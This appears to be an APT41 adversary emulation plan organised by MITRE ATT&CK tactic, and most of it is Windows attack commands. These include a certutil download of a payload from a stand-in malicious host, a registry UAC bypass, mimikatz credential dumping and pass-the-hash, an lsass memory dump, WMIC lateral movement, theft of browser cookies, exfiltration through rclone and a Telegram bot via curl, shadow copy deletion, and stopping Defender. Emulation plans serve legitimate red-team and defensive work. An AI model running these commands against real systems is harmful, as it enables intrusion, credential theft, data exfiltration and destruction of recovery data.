 
## APT41 Emulation Plan

### Initial Access (TA0001)
**T1190 - Exploit Public-Facing Applications**
- Exploited vulnerabilities in:
  - Apache Tomcat Manager
  - JBoss JMX Console
  - Zimbra
- Deployed web shells (ANTSWORD, BLUEBEAM) via RCE exploits
- Leveraged ProxyShell (CVE-2021-34473) for Exchange server access

**T1078 - Valid Accounts**
- Used stolen credentials from:
  - Google Workspace
  - Office365
  - VPN accounts
- Pivoted from cloud accounts to internal networks

---

### Execution (TA0002)
**T1059.003 - Windows Command Shell**
```
certutil -urlcache -split -f http://malicious.com/payload.exe C:\temp\payload.exe
rundll32.exe C:\Windows\Temp\malicious.dll,Start

```

```
  

# Privilege Escalation (TA0004)

  

## T1548.002 - Bypass UAC

```
```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /d "C:\backdoor.exe"

```

  

## T1055 - Process Injection

```

mimikatz.exe "privilege::debug" "inject::process explorer.exe /payload.bin"

```

  

# Defense Evasion (TA0005)

  

## T1027 - Obfuscation

- AES-256/ChaCha20 encrypted payloads

- Gzip-compressed shellcodes

  

## T1202 - Indirect Command Execution

```

wmic process call create "powershell -exec bypass -File C:\payload.ps1"

```

  

# Credential Access (TA0006)

  

## T1555 - Credentials from Stores

```

vaultcmd.exe /listcreds:"Windows Credentials"

procdump.exe -accepteula -ma lsass.exe lsass.dmp

```

  

## T1003 - OS Credential Dumping

```

sekurlsa::logonPasswords

```

  

# Discovery (TA0007)

  

## T1018 - Remote System Discovery

```

net view /domain

arp -a

systeminfo

```

  

## T1082 - System Info Discovery

```

wmic computersystem get Model,Manufacturer

```

  

# Lateral Movement (TA0008)

  

## T1021 - Remote Services

```

wmic /node:<target_ip> process call create "powershell -exec bypass -File C:\payload.ps1"

```

  

## T1550.002 - Pass the Hash

```

sekurlsa::pth /user:Administrator /domain:target.local /ntlm:<hash>

```

  

# Collection (TA0009)

  

## T1005 - Local System Data

```

copy C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Cookies C:\stolen_data

```

  

# Command and Control (TA0011)

  

## T1071 - Application Layer Protocol

- Cobalt Strike with HTTPS/DNS tunneling

- RC4-encrypted payloads

  

## T1095 - Non-Application Protocol

- Custom TCP backdoors

  

# Exfiltration (TA0010)

  

## T1041 - C2 Channel Exfiltration

```

rclone sync C:\stolen_data onedrive:backup --transfers=5 --progress

```

  

## T1567 - Web Service Exfiltration

```

curl -X POST -F "file=@C:\stolen_data.zip" https://api.telegram.org/bot<TOKEN>/sendDocument?chat_id=<ID>

```

  

# Impact (TA0040)

  

## T1490 - Inhibit System Recovery

```

vssadmin delete shadows /all /quiet

```

  

## T1489 - Service Stop

```
sc stop WinDefend

```

  

# Additional Tools & Techniques

  

## Web Shells

  

### ANTSWORD


```

whoami

ipconfig /all

net user

powershell -enc <Base64Command>

```

  

### BLUEBEAM

```

GET /admin.php?cmd=whoami

POST /shell.php HTTP/1.1

```

  

## DLL Trojanization

```

%windir%\Microsoft.NET\assembly\GAC_MSIL\System.Data.Trace\v4.0_4.0.0.0__b0<hex_uuid>\<module_name>.dll

```
